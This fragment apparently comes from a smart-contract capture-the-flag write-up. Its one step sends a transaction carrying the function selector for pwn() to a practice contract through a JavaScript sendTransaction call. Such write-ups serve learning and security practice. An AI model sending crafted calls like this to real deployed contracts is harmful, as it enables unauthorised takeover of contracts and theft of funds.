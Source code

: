 send a transaction to the contract, passing as data the function selector for pwn()
```javascript
await sendTransaction({from:player, to:contract.address, data:"0xdd365b8b"})
```
